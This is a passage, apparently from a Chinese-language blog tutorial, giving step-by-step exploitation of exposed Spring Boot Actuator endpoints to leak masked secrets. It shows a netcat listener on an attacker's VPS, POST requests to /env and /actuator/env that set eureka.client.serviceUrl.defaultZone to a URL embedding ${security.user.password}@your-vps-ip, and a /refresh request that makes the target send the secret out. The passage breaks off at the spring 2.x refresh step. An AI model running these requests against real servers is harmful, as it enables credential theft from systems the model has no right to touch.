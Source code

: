 

GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 \*\*\*\*\*\* 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。



步骤二： 使用 nc 监听 HTTP 请求



在自己控制的外网服务器上监听 80 端口：nc -lvp 80



步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性



将下面 [http://value:$](https://links.jianshu.com/go?to=http%3A%2F%2Fvalue%3A%2524){security.user.password}@your-vps-ip 中的 security.user.password 换成自己想要获取的对应的星号 \* 遮掩的属性名；



your-vps-ip 换成自己外网服务器的真实 ip 地址。



**spring 1.x**



```
POST /env      
Content-Type: application/x-www-form-urlencoded       
eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```




**spring 2.x**



```
POST /actuator/env      
Content-Type: application/json       
{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```




步骤四：刷新配置



**spring 1.x**



```
POST /refresh      
Content-Type: application/x-www-form-urlencoded
```




**spring 2.x**

